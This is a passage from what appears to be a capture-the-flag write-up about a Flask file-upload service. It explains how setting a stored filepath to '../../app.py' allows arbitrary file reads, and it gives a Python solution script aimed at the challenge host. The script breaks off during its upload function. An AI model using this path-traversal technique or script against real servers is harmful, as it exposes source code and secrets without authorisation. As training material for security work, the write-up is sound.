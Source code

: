 Then when that path is saved into database, we can read any files!

```py
new_file = File(filename=secure_filename(filename), filepath=file_path, user_id=user_id)
db.session.add(new_file)
db.session.commit()
```

Note that the file will be uploaded into intended directory, but we do not need to care about that. We want to read other files.

## Exploitation

You can use Python or Burp to modify filepath. Modify to `../../app.py` to read `app.py` file. Then use `/file/<int:file_id>` to read.

## Solution

```py
import requests

# URL = 'http://localhost:5000'
URL = 'http://a108fda8273cb696f5ad0.playat.flagyard.com/'

# -----------------------------------------------------------
def regist_account(url, account):
    response = requests.post(url=url + '/register', json=account)
    
    if response.status_code == 201:
        print("[+] Regist successfully: ", response.status_code)
    else:
        print("[+] Regist fail: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def login_account(url, session: requests.Session, account):
    response = session.post(url=url + '/login', json=account)
    
    if response.status_code == 200:
        print("[+] Login successful: ", response.status_code)
    else:
        print("[+] Login fail: ", response.status_code)
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def get_profile(url, session: requests.Session):
    response = session.get(url=url + '/profile')
    print('[+] Profile: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')

def get_list_files(url, session: requests.Session):
    response = session.get(url=url + '/files')
    print('[+] Files: ')
    print('\t---------------------------------------')
    print('\t', response.text)
    print('\t---------------------------------------')
    
def upload_file(url, session: requests.Session, file_path: str, file_newname: str):
    files = {'file': (file_newname, open(file_path, 'rb'))}
    
    response = session.post(url=url + '/upload', files=files)
```